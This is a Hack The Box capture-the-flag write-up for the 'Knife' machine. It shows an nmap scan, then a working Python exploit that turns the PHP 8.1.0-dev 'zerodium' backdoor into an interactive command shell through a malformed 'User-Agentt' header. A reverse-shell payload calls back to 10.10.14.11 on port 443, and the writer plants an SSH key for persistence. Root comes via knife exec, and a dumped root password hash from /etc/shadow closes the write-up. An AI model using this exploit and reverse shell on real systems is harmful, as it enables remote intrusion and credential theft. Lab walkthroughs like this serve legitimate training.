

# Knife



Nmap scan to discover active ports and service versions:

```python
# Nmap 7.91 scan initiated Sun May 23 00:14:49 2021 as: nmap -sV -A -o nmap.scan 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 23 00:15:18 2021 -- 1 IP address (1 host up) scanned in 29.68 seconds
```

I search for php version and i found a backdoor in that version: The name of backdoor is zerodium

[https://flast101.github.io/php-8.1.0-dev-backdoor-rce/](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Consists in pass other user agent with more T, so it returns commands for us.


So now we have to get a shell using the backdoor. 

```python
zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'");
```


For a better shell i put my SSH key in authorized keys.

Create a script.rb to run and the knife exec say to you type the script to run, so execute te command and get a root session.

```python
exec("/bin/bash")
```


```python
root:$6$LCKz7Uz/FuWPPJ6o$LaOquetpLJIhOzr7YwJzFPX4NdDDHokHtUz.k4S1.CY7D/ECYVfP4Q5eS43/PMtsOa5up1ThgjB3.xUZsHyHA1:18754:0:99999:7:::
```